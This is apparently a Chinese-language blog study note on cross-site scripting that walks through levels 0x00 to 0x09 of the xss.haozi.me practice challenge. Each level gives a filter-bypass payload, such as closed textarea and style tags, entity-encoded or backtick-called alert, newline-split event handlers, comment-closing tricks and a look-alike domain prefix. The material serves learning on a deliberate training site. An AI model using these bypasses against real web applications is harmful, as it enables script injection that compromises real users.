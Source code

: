 ```yaml
---
layout: page
title: "XSS"
date: 2019-10-29 01:01
---
```


## 实验平台
https://curtails.github.io/xss/
https://xss.haozi.me

## XSS绕过方法总结
`<scirpt>`
```js
<script>alert(1)</script>
<script>alert(1);</script>
<script>alert("1")</script>
```

## xss-demo
[github](https://github.com/haozi/xss-demo/)

[在线地址](https://xss.haozi.me)

拼凑所需语句即可不必关心原语句完整性？？浏览器容错性？？
- 0x00 `<script>alert(1)</script>` 无任何过滤
- 0x01 `</textarea><script>alert(1)</script>`闭合标签
- 0x02 `"> <script>alert(1)</script>`闭合标签
- 0x03 

```js
<script>alert`1`</script>
<svg><script>alert&#40;1&#41</script>
``` 

正则表达式过滤() 用``绕过或实体编码的字符编码
- 0x04 同0x03 

```js
<svg><script>alert&#40;1&#41</script>
<iframe onload=alert&#40;1&#41></iframe>
```
- 0x05
将-->替换成😀 html注释`<!--xxs--->`或`<!--xss--!>`
payload:`--!> <script>alert(1)</script>`

- 0x06
过滤`auto*****=`或`on*****=`替换为_ 可用换行符绕过

```js
onmousemove
=alert(1)

type=image src onerror
=alert(1)
```
- 0x07
匹配<***>字符串忽略大小写替换为空

```js
<svg/onload=alert(1) //有空格
```

- 0x08
将`</style>`替换成`/*坏人*/` 在标签>之前加个空格或换行就好了

```js
</style ><script>alert(1)</script>
</style
><script>alert(1)</script>
```

- 0x09
输入要以https://www.segmentfault.com开头 有一种payload是在网站上存在alert(1)js脚本

```js
https://www.segmentfault.com.haozi.me/j.js
```
